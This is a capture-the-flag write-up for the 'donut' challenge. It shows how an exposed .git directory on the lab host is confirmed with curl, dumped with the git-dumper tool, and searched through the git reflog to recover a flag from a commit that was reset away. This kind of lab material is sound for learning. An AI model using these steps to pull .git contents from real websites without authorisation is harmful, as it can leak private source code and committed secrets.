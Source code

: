 ## donut [100 pts]

**Category:** Misc
**Solves:** 160

## Description
Can you find your way around a git reposotory [sic]?

gitgoo.challs.pwnoh.io

### Solution

Visting the webpage, we see below hint:

```html
Can you find your way around a git reposotory [sic]? 
```

Ok, let's verify if there is any git repo available:

```bash
curl "https://gitgoo.challs.pwnoh.io/.git/HEAD"
ref: refs/heads/master
```

Ok seem the git repo is available. We should download files and look for flag.
I used git-dumper package to download `.git` files without having directory traversal enabled.

You can access this tool using link below:

https://github.com/arthaud/git-dumper

Now let's download files:

```bash
python git_dumper.py https://gitgoo.challs.pwnoh.io/.git output
```

The source files will be placed in `output` folder.

Let's look for the flag.
```
> cd output
> ls
app.py  Dockerfile  index.html

> ls -la
total 28
drwxr-xr-x 3 execut3 execut3 4096 Sep 28 16:22 ./
drwxr-xr-x 7 execut3 execut3 4096 Sep 28 16:22 ../
-rw-r--r-- 1 execut3 execut3  591 Sep 28 16:22 app.py
-rw-r--r-- 1 execut3 execut3  116 Sep 28 16:22 Dockerfile
drwxr-xr-x 7 execut3 execut3 4096 Sep 28 16:22 .git/
-rw-r--r-- 1 execut3 execut3  162 Sep 28 16:22 .gitignore
-rw-r--r-- 1 execut3 execut3   53 Sep 28 16:22 index.html

> git log
commit 391d507873dc7139d2420a8b492620db26912cdb (HEAD -> master)
Author: jm8 <jm8@pwnoh.io>
Date:   Sun Sep 22 13:42:54 2024 -0400

    Add app.py and Dockerfile but NOT flag

commit bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
Author: jm8 <jm8@pwnoh.io>
Date:   Sun Sep 22 13:42:54 2024 -0400

    Initial commit (add index.html)

> cat .git/logs/HEAD 
0000000000000000000000000000000000000000 bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c jm8 <jm8@pwnoh.io> 1727026974 -0400	commit (initial): Initial commit (add index.html)
bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c 872e5099233f5d528ce3e60b4b197c9af17f784b jm8 <jm8@pwnoh.io> 1727026974 -0400	commit: Add app.py and Dockerfile
872e5099233f5d528ce3e60b4b197c9af17f784b 9b474236ba20cf3f7d484b76348de51c819c0d65 jm8 <jm8@pwnoh.io> 1727026974 -0400	commit: Accidentally commited flag :facepalm:
9b474236ba20cf3f7d484b76348de51c819c0d65 bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c jm8 <jm8@pwnoh.io> 1727026974 -0400	reset: moving to HEAD~~
bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c 391d507873dc7139d2420a8b492620db26912cdb jm8 <jm8@pwnoh.io> 1727026974 -0400	commit: Add app.py and Dockerfile but NOT flag
391d507873dc7139d2420a8b492620db26912cdb 391d507873dc7139d2420a8b492620db26912cdb jm8 <jm8@pwnoh.io> 1727528096 +0330	checkout: moving from master to 391d507873dc7139d2420a8b492620db26912cdb
391d507873dc7139d2420a8b492620db26912cdb bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c jm8 <jm8@pwnoh.io> 1727528117 +0330	checkout: moving from 391d507873dc7139d2420a8b492620db26912cdb to bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c 9b474236ba20cf3f7d484b76348de51c819c0d65 jm8 <jm8@pwnoh.io> 1727528206 +0330	checkout: moving from bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c to 9b474236ba20cf3f7d484b76348de51c819c0d65
9b474236ba20cf3f7d484b76348de51c819c0d65 bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c jm8 <jm8@pwnoh.io> 1727528213 +0330	checkout: moving from 9b474236ba20cf3f7d484b76348de51c819c0d65 to bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c 872e5099233f5d528ce3e60b4b197c9af17f784b jm8 <jm8@pwnoh.io> 1727528221 +0330	checkout: moving from bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c to 872e5099233f5d528ce3e60b4b197c9af17f784b
```

let's revert to commit `872e5099233f5d528ce3e60b4b197c9af17f784b`.

```bash
> git checkout 872e5099233f5d528ce3e60b4b197c9af17f784b
Previous HEAD position was bc97871 Initial commit (add index.html)
HEAD is now at 872e509 Add app.py and Dockerfile

> ls
app.py  Dockerfile  flag.txt  index.html

> cat flag.txt 
bctf{flaghere}
```
